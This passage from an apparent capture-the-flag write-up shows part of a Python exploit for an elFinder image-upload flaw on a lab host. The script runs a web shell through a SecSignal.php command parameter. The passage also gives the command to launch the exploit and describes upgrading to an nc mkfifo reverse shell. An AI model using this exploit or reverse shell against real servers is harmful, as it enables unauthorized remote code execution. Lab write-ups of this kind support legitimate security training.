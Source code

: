 ```python
            try:
                inp = input("$ ")
                r = requests.get("%s/php/SecSignal.php?c=%s" % (url, inp))
                print(r.text)
            except KeyboardInterrupt:

                sys.exit("\nBye kaker!")
    else:
        print("[*] The site seems not to be vulnerable :(")


def main():
    usage()
    url = sys.argv[1]
    print("[*] Uploading the malicious image...")
    hash = upload(url, payload)
    print("[*] Running the payload...")
    imgRotate(url, hash)
    shell(url)


if __name__ == "__main__":
    main()
```

To get the shell, copy a `jpg` image to the current working directory, rename it to `SecSignal.jpg`, and run:

```bash
python exploit.py http://files.lookup.thm/elFinder
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736411966935/be364ccc-a6e2-45ee-83b1-543486f07a94.png align="left")

Next, we upgrade the shell for better control. I first tried a `Bash -i` reverse shell, which didn’t work. Then I used a `nc mkfiko` reverse shell (from [revshells.com](http://revshells.com)) in URL-encoded format because the connection is over HTTP. Replace the IP and port accordingly, and start a `nc` server on the host machine. (Make sure the firewall is disabled or the port is allowed; otherwise, the reverse shell might not work.)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736411996668/1576cba6-ece6-4244-a96b-a43719dbc7b8.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412009455/f2d4ad02-a17b-4656-a1e5-d7f26e6f0126.png align="left")

To stabilize the `nc` shell:

```bash
export TERM=xterm
bash -i
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736412025167/b104acbe-7d7e-42fb-a25a-9a89b57341de.png align="left")

